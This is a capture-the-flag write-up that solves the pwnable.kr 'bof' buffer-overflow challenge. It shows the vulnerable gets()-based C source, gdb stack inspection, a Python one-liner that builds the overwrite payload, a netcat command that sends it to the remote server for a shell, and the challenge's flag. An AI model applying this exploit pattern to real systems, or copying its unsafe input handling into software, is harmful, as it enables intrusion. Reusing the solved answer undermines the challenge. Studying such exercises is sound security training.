


# bof

Source code ([Link to binary](http://pwnable.kr/bin/bof)):

```c
#include <stdio.h>
#include <string.h>
#include <stdlib.h>
void func(int key){
        char overflowme[32];
        printf("overflow me : ");
        gets(overflowme);       // smash me!
        if(key == 0xcafebabe){
                system("/bin/sh");
        }
        else{
                printf("Nah..\n");
        }
}
int main(int argc, char* argv[]){
        func(0xdeadbeef);
        return 0;
}
```

If you are running a 32-bit machine, you will not have any problems running the binary as the binary is compiled for 32-bit machines.

```bash
$ file bof
bof: ELF 32-bit LSB pie executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.24, BuildID[sha1]=ed643dfe8d026b7238d3033b0d0bcc499504f273, not stripped
```

For the users on 64-bit machines, you follow the solution mentioned [here](https://askubuntu.com/a/454254) to run the 32-bit binaries on 64-bit machines.

As evident from the source code, it is clear that we have to overflow the `overflowme buffer` and pass the `if confition` on line number 8.

If we try to go the usual route and try overflowing this binary by passing in a large value to check if it segfaults, we get the following:

```bash
$ ./bof
overflow me : 
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Nah..
*** stack smashing detected ***: <unknown> terminated
Aborted (core dumped)
```

We can inspect the reason for this by checking the output of `checksec` utility which states what all binary protection mechanisms are applied on this binary.

```bash
$ checksec --file ./bof
```



As we can see all the binary protection mechanisms are applied over this binary, we have to search for another route.

Lets hop into GDB and see exactly how far is the value of key from the buffer and try overwriting the value of key.

```assembly
gef➤  disas func
Dump of assembler code for function func:
   0x0000062c <+0>:		push   ebp
   0x0000062d <+1>:		mov    ebp,esp
   0x0000062f <+3>:		sub    esp,0x48
   0x00000632 <+6>:		mov    eax,gs:0x14
   0x00000638 <+12>:	mov    DWORD PTR [ebp-0xc],eax
   0x0000063b <+15>:	xor    eax,eax
   0x0000063d <+17>:	mov    DWORD PTR [esp],0x78c
   0x00000644 <+24>:	call   0x645 <func+25>
   0x00000649 <+29>:	lea    eax,[ebp-0x2c]
   0x0000064c <+32>:	mov    DWORD PTR [esp],eax
   0x0000064f <+35>:	call   0x650 <func+36>
   0x00000654 <+40>:	cmp    DWORD PTR [ebp+0x8],0xcafebabe
   0x0000065b <+47>:	jne    0x66b <func+63>
   0x0000065d <+49>:	mov    DWORD PTR [esp],0x79b
   0x00000664 <+56>:	call   0x665 <func+57>
   0x00000669 <+61>:	jmp    0x677 <func+75>
   0x0000066b <+63>:	mov    DWORD PTR [esp],0x7a3
   0x00000672 <+70>:	call   0x673 <func+71>
   0x00000677 <+75>:	mov    eax,DWORD PTR [ebp-0xc]
   0x0000067a <+78>:	xor    eax,DWORD PTR gs:0x14
   0x00000681 <+85>:	je     0x688 <func+92>
   0x00000683 <+87>:	call   0x684 <func+88>
   0x00000688 <+92>:	leave  
   0x00000689 <+93>:	ret    
```

Lets set a breakpoint at `func+40` and see the values int the stack (`x/30hwx $esp`) once we have send in `A*32` as our input.

```assembly
gef➤  x/30hwx $esp
0xffffd100:	0xffffd11c	0xffffd204	0xf7fb6000	0x00000000
0xffffd110:	0x00000000	0xf7fb6000	0xf7e0fb39	0x41414141
0xffffd120:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffd130:	0x41414141	0x41414141	0x41414141	0xbec6ed00
0xffffd140:	0x0000000d	0x56556ff4	0xffffd168	0x5655569f
0xffffd150:	0xdeadbeef	0x00000000	0x565556b9	0x00000000
0xffffd160:	0xf7fb6000	0xf7fb6000	0x00000000	0xf7df8751
0xffffd170:	0x00000001	0xffffd204
```

As we can see, the value of `0xdeadbeef (key)` is at `0xffffd150`,  52 bytes away from the starting of buffer `overflowme`, thus to bypass the comparison at line 8, we have to create a payload which consists of 52 junk bytes and `0xcafebabe` as last 4 bytes.

> **NOTE**: We willll have to pass the value `0xcafebabe` in little `endian format` along with other values.

```python
>>> import struct
>>> struct.pack("<I", 0xcafebabe)
b'\xbe\xba\xfe\xca'
```

Payload can be generated using the following in-line python command:

```python
python -c 'print("A"*52 + "\xbe\xba\xfe\xca")' > /tmp/input
```

Lets give this a try in GDB and see if we were able to achieve the results we were after.

```assembly
gef➤  r < /tmp/input
Starting program: /home/jtnydv/pwnable.kr/bof/bof < /tmp/input
overflow me : 
...
gef➤  x/30hwx $esp
0xffffd100:	0xffffd11c	0xffffd204	0xf7fb6000	0x00000000
0xffffd110:	0x00000000	0xf7fb6000	0xf7e0fb39	0x41414141
0xffffd120:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffd130:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffd140:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffd150:	0xcafebabe	0x00000000	0x565556b9	0x00000000
0xffffd160:	0xf7fb6000	0xf7fb6000	0x00000000	0xf7df8751
0xffffd170:	0x00000001	0xffffd204
```

As it is clear from the output of examine command we have successful overwritten the value at `0xffffd150` with `0xcafebabe`. Thus our payload works, now we can use this payload to actually get a shell on the remote server using the following command:

```bash
$ (cat /tmp/input; cat) | nc pwnable.kr 9000
$ ls -al
total 496
drwxr-x---   3 root bof    4096 Oct 23  2016 .
drwxr-xr-x 114 root root   4096 May 19 15:59 ..
d---------   2 root root   4096 Jun 12  2014 .bash_history
-r-xr-x---   1 root bof    7348 Sep 12  2016 bof
-rw-r--r--   1 root root    308 Oct 23  2016 bof.c
-r--r-----   1 root bof      32 Jun 11  2014 flag
-rw-------   1 root root 467454 Jun 22 09:17 log
-rw-r--r--   1 root root      0 Oct 23  2016 log2
-rwx------   1 root root    760 Sep 11  2014 super.pl
$ cat flag
daddy, I just pwned a buFFer :) # FLAG
```



